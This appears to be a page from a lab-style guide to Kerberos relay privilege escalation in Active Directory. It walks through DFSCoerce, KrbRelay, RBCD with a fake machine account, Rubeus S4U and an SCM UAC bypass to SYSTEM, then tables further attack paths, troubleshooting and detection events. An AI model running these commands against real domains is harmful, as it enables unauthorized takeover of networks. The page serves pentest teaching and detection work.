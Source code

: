 - 3.3 **Coerce Kerberos auth**

```powershell
# coerce DC to auth over SMB with DFSCoerce
.\dfscoerce.exe --target \\DC01.lab.local --listener 10.0.0.50
```
DFSCoerce makes the DC send a Kerberos `CIFS/DC01` ticket to us.

- 3.4 **Relay the AP-REQ**

KrbRelay extracts the GSS blob from SMB, repackages it into an LDAP bind, and forwards it to `ldap://DC01`—authentication succeeds because the **same key** decrypts it.

- 3.5 **Abuse LDAP ➜ RBCD ➜ SYSTEM**

```powershell
# (auto inside KrbRelayUp) manual for clarity
New-MachineAccount -Name "FAKE01" -Password "P@ss123"
KrbRelay.exe -spn ldap/DC01 -rbcd FAKE01_SID
Rubeus s4u /user:FAKE01$ /rc4:<hash> /impersonateuser:administrator /msdsspn:HOST/DC01 /ptt
SCMUACBypass.exe
```
You now own **NT AUTHORITY\SYSTEM**.

### **More paths worth knowing**

| Vector | Trick | Why it matters |
|--------|-------|----------------|
| **AuthIP / IPSec** | Fake server sends a **GSS-ID payload** with any SPN; client builds an AP-REQ straight to you | Works even across subnets; machine creds by default |
| **DCOM / MSRPC** | Malicious OXID resolver forces client to auth to arbitrary SPN and port | Pure *local* priv-esc; sidesteps firewall |
| **AD CS Web Enroll** | Relay machine ticket to `HTTP/CA` and get a cert, then **PKINIT** to mint TGTs | Bypasses LDAP signing defenses |
| **Shadow Credentials** | Write `msDS-KeyCredentialLink`, then PKINIT with forged key pair | No need to add a computer account |

### **Troubleshooting**

| Error | Meaning | Fix |
|-------|---------|-----|
| `KRB_AP_ERR_MODIFIED` | Ticket key ≠ target key | Wrong host/SPN |
| `KRB_AP_ERR_SKEW` | Clock > 5 min offset | Sync time or use `w32tm` |
| LDAP bind fails | Signing enforced | Use AD CS path or disable signing |
| Event 4649 spam | Service saw duplicate Authenticator | block or race original packet |

### **Detection**

* Surge in **Event 4769** for `CIFS/`, `HTTP/`, `LDAP/` from the same source within seconds.  
* **Event 4649** on the service indicates replay detected.  
* Kerberos logon from **127.0.0.1** (relay to local SCM) is highly suspicious—map via Sigma rule in KrbRelayUp docs.  
* Watch changes to `msDS-AllowedToActOnBehalfOfOtherIdentity` or `msDS-KeyCredentialLink` attributes.

